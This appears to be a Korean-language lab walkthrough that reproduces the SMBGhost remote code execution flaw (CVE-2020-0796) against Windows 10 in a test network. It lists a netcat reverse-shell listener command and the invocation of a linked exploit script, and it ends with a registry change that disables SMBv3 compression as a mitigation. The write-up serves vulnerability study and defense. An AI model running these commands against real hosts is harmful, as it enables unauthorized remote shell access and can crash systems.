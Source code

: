 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type       | OS                                  | Build                   | Core | RAM  | IP              | App          |
| :---       | :---                                | :---                    | :--- | :--- | :---            | :---         |
| Victim     | Windows 10 1903</br>Windows 10 1909 | 18362.356</br>18363.418 | 1    | 4GB  | 192.168.108.149 |              |
| Attacker   | Windows 10 21H1                     | 19043.1706              |      |      | 192.168.0.32    | [exploit.py](https://github.com/2jinu/CVE/blob/main/RCE/%5BWindows%5D%20CVE-2020-0796/file/exploit.py) |

# **Setting**

SMB 사용 허용

![](images/2022-05-18-22-11-02.png)


# **Exploit**

세션 대기

    nc64.exe -nvlp [reverse port] -s [reverse ip]

![](images/2022-05-18-22-15-28.png)

exploit.py 실행

    python exploit.py [target ip] [reverse ip] [reverse port]

![](images/2022-05-18-22-15-44.png)

쉘 획득

![](images/2022-05-18-22-15-54.png)


# **etc**

process tree 확인

![](images/2022-05-18-22-16-07.png)

![](images/2022-05-18-22-16-13.png)
![](images/2022-05-18-22-16-17.png)

패킷 확인

![](images/2022-05-18-22-16-24.png)

exploit.py을 끝내면 BSoD 발생

![](images/2022-05-18-22-16-42.png)

SMBv3 비활성화

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force
```